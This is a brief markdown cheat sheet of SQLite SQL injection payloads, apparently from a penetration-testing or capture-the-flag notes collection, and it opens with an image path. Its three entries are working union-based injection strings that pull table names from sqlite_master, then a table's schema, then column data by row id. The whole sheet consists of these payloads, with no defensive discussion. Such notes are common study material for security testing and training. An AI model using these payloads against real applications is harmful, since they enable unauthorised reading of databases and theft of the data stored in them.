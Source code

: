 ## SQLite

- Extract table names 

  - `1' union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  
  - `1' union select sql from sqlite_master where type='table' and name='<table_name>'--`

- Extract data using column and table name

  - `1' union select <column_name> from <table_name> where id=1--`
